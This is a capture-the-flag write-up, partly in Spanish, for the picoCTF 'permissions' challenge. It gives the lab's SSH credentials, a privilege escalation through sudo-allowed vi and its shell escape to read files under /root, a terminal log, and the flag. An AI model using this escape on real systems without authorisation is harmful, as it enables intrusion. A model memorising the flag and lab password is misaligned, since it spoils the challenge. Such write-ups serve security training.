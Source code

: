 # permissions

### Description

Can you read files in the root file?

Additional details will be available after launching your challenge instance.

The system admin has provisioned an account for you on the main server:`ssh -p 65252 picoplayer@saturn.picoctf.net`Password: `UYiOazkqY2`Can you login and read the root file?

### 1 Hints 

* What permissions do you have?

## Solución

Ingresamos nuestra dirección ssh proporcionada, ponemos la contraseña y una vez dado los permisos, vemos el contenido con un ls, después intentamos ver el contenido de la carpeta root, pero con un `sudo -l` veremos los comandos que se pueden ejecutar, enseguida escribimos vi y abre un editor en el cual y para ejecutar los comandos se escribe `:! ls /root` después de da enter y se escribe `vi` y se ejecuta un superusuario en el cual se puede examinar el directorio raíz, se da un `:! ls -al /root` para mostrar los archivos ocultos y una vez ejecutado podemos observar como hay un archivo `flag.txt` así que por ultimo aplicamos un cat para que nos muestre el contenido `:! cat /root/.flag.txt` y con esto nos muestra nuestra flag:

```
jazmin@DESKTOP-1CBQJ6D:~/FIS$ ssh -p 65252 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:65252 ([13.59.203.175]:65252)' can't be established.
ECDSA key fingerprint is SHA256:s2AWZ4eSekFqmKTQL464AhEMZ0l1HLfG7L6emApGl5c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:65252,[13.59.203.175]:65252' (ECDSA) to the list of known hosts.
picoplayer@saturn.picoctf.net's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ ls /
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
picoplayer@challenge:~$ ls /root
ls: cannot open directory '/root': Permission denied
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ vi

ls: cannot open directory '/root': Permission denied

shell returned 2

Press ENTER or type command to continue
[1]+  Stopped                 vi
picoplayer@challenge:~$ sudo vi


Press ENTER or type command to continue
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 21 06:21 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}

Press ENTER or type command to continueConnection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
jazmin@DESKTOP-1CBQJ6D:~/FIS$
```

### Resultado: picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}